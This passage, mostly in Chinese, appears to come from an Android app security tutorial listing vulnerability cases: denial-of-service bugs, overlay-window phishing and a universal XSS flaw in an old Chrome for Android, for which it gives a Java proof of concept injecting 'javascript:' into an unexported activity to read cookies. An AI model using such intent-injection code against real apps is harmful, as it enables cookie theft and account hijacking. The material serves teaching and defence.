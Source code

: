 WooYun: Tencent WeiBo multiple Dos vulnerabilities(critical)

WooYun: Android原生的Settings应用存在必现崩溃问题（可造成拒绝服务攻击） (涉及fragment)

案例3：界面劫持

WooYun: android利用悬浮窗口实现界面劫持钓鱼盗号

案例4：UXSS

漏洞存在于Chrome Android版本v18.0.1025123，class "com.google.android.apps.chrome.SimpleChromeActivity" 允许恶意应用注入js代码到任意域. 部分 AndroidManifest.xml配置文件如下

<activity android:name="com.google.android.apps.chrome.SimpleChromeActivity" android:launchMode="singleTask" android:configChanges="keyboard|keyboardHidden|orientation|screenSize">
        <intent-filter>
            <action android:name="android.intent.action.VIEW" />
            <category android:name="android.intent.category.DEFAULT" />
        </intent-filter>
</activity>
Class "com.google.android.apps.chrome.SimpleChromeActivity" 配置 但是未设置 "android:exported" 为 "false". 恶意应用先调用该类并设置data为” http://google.com” 再次调用时设置data为恶意js例如'javascript:alert(document.cookie)', 恶意代码将在http://google.com域中执行. "com.google.android.apps.chrome.SimpleChromeActivity" class 可以通过Android api或者am（activityManager）打开. POC如下

public class TestActivity extends Activity {
    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Intent i = new Intent();
                ComponentName comp = new ComponentName(
                                 "com.android.chrome",
                                    "com.google.android.apps.chrome.SimpleChromeActivity");
                i.setComponent(comp);
                i.setAction("android.intent.action.VIEW");
                Uri data = Uri.parse("http://google.com");
                i.setData(data);

                startActivity(i);

                    try {
                        Thread.sleep(5000);
                        }
                          catch (Exception e) {}

                data = Uri.parse("javascript:alert(document.cookie)");  
                i.setData(data);

                startActivity(i);
    }
}
案例5：隐式启动intent包含敏感数据

暂缺可公开案例,攻击模型如下图。



案例6：Fragment注入(绕过PIN+拒绝服务)
